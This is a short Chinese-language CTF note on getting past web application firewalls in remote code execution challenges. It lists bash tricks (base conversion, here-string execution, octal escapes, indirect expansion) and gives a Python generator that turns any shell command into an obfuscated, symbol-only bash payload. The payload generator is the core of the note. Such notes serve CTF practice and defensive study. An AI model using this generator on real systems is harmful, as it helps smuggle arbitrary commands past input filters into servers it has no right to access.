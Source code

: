 tags:: RCE, CTFWEB/Shell/WAF绕过

- # bash特性
	- bash可以通过`$((进制#数值))`的方式转换进制，比如说`$((2#100))`表示4
	- bash可以使用移位操作`1<<1`产生数字2
	- bash中可以通过`$0<<<"echo 1"`来执行命令
		- 可以使用`$0<<<$0\<\<\<"echo 1"`让bash二次解析，避免将整个字符串识别成命令名。
	- bash中可以使用八进制表示字符串，比如`$'\154\163'`
		- 也就是`$'`加上以`\`开头的八进制，结尾加上`'`
	- bash中`${!xxx}`可以将一个变量的值作为变量名
		- 比如如果`def=abc`且`abc=123`那`${!def}`等价于`${abc}`，其结果是123。
- # payload生成
	- ```python
	  def generate(n):
	      if n == 0:
	          return "$((${!#}))"
	      elif n == -1:
	          return "$((~{n0}))".format(n0=generate(0))
	      elif n == 1:
	          return "$((~$(($((~{n0}))$((~{n0}))))))".format(n0 = generate(0))
	      elif isinstance(n, int) and n < 0:
	          return "$(({}))".format("".join(generate(-1) for _ in range(-n)))
	      elif isinstance(n, int) and n > 0:
	          return "$((~{}))".format(generate(-n - 1))
	      else:
	          raise NotImplemented()
	  
	  def zero_str():
	      return "${!#}"
	  
	  def binary_str(s):
	      assert all(c in "01" for c in s)
	      return s.replace("1", generate(1)).replace("0", generate(0))
	  
	  def num(n: int):
	      return f"$(($(({generate(1)}<<{generate(1)}))#{binary_str(bin(n)[2:])}))"
	  
	  def string(s: str):
	      return "$\\'" + "".join(
	          ["\\\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "\\'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  print(payload("echo 1234"))
	  ```
-
